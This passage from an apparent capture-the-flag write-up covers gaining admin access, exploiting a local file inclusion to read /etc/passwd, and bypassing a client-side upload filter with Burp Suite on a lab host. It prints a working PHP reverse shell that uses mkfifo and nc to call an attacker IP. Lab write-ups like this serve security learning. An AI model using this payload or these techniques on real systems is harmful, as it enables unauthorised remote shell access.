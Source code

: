 The dump revealed two tables: `user` and `config`.

<img width="704" height="144" alt="image" src="https://github.com/user-attachments/assets/7724c3f1-f551-4639-a416-206762dafd77" />

<img width="763" height="151" alt="image" src="https://github.com/user-attachments/assets/831d39a9-aa4b-40ea-b4a5-72250e4f1869" />

Using the password on `/admin_101`, we gain access to this webpage:

<img width="1270" height="708" alt="image" src="https://github.com/user-attachments/assets/2b9e9cab-c22b-4357-946f-5ba1d1d4121a" />

# LFI and RCE

When we try the first URL from the `config` table (with its corresponding password), we are met with this message:

<img width="1269" height="718" alt="image" src="https://github.com/user-attachments/assets/d1705557-9271-4d0a-ba67-a34ba665a7b0" />

Viewing the page source gives us a hint:

<img width="516" height="70" alt="image" src="https://github.com/user-attachments/assets/78533700-1263-4b8a-b012-6c20dfe390e2" />

So we try just that, we can test the parameter by adding `?file=<file_to_read>` to the URL, this will allows us to read files that we have permissions to read. So we test with a world readable file like `/etc/passwd`:

Full URL: `http://10.10.137.122:1337/file1010111/index.php?file=/etc/passwd`

<img width="1277" height="652" alt="image" src="https://github.com/user-attachments/assets/d1409757-31f2-44d6-a2d8-5338347a3d36" />

And we have an LFI!

Checking `/etc/passwd`, I looked for entries with `/home`. We find two: `zeamkish` and `ubuntu`.

Next, we move to the second URL from the config table: `/upload-cv00101011/index.php`. This page prompts us for the username starting with “z”. Entering `zeamkish` gets us in:

<img width="1279" height="712" alt="image" src="https://github.com/user-attachments/assets/7604c4bb-012c-4406-9a84-0a89931ac89b" />

Now we can upload files. Looking at the source code, we see client-side sanitization restricting uploads to `.png` or `.jpg` extensions.  

Double extensions didn’t work, but we can bypass the check using Burp Suite. Intercepting the request, I changed the filename to `shell.php`, kept the `Content-Type: image/png`, and inserted my reverse shell payload:

```php
<?php system("mkfifo /tmp/f; nc 10.21.239.111 666 < /tmp/f | /bin/sh > /tmp/f 2>&1"); ?>
```
After sending it, we get a message in the response saying:

`File uploaded successfully! Maybe look in source code to see the path.`

The source revealed the upload path: /upload_thm_1001.

<img width="1273" height="656" alt="image" src="https://github.com/user-attachments/assets/18192beb-1406-47f5-aae4-04f9141a6e24" />
